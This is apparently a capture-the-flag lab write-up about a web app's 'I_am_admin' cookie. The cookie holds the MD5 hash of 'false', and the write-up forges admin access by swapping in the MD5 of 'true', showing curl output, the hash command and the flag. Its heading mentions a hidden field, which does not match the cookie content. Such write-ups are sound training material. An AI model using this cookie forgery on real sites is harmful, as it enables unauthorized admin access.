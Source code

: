 # Hidden field on pass recover page

## Exploitation

When checking the cookies of the website, we can see a cookie named `I_am_admin`, wich contain a hash

```
curl -I 'http://192.168.1.48/'   
HTTP/1.1 200 OK
Server: nginx/1.8.0
Date: Tue, 22 Sep 2020 13:31:47 GMT
Content-Type: text/html
Connection: keep-alive
X-Powered-By: PHP/5.3.10-1ubuntu3.19
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Tue, 22-Sep-2020 14:31:47 GMT
```

Try to crack the hash with crackstation.net

It appears to be a md5 hash for the string `false`

Maybe we can hash the string `true` to be admin?

```
$ echo -n 'true' | md5sum           
b326b5062b2f0e69046810717534cb09  -
```

Try to put this hash on the cookie instead of the `false`

We got the flag!

Script it

```
$ ./exploit.py 
<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script>
```




